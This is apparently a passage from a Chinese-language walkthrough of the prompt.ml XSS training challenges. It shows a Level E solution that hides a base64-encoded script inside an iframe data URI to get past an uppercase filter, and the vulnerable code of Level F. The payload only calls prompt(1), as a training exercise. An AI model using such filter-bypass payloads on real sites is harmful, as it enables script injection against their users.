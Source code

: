 因为经过大写转换,就只能利用base64编码的写法了。

`<IFRAME/SRC="data:TEXT/HTML;BASE64,PHNJCMLWDD5WCM9TCHQOMSK8L3NJCMLWDD4=">`

`PHNJCMLWDD5WCM9TCHQOMSK8L3NJCMLWDD4=`是`<script>prompt(1)</script>`经过base64编码再改大写的。

## Solutions:

```
1. "><iframe/src="data:text/html;base64,PHNjcmlwdD5wcm9tcHQoMSk8L3NjcmlwdD4=
```

## Img:

这题在环境下没有成功,但是在本地测试下是可行的。

![E_2](/img/xss/prompt_ml/levelE_002.png)

# Level F

## Code:

```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}   
```
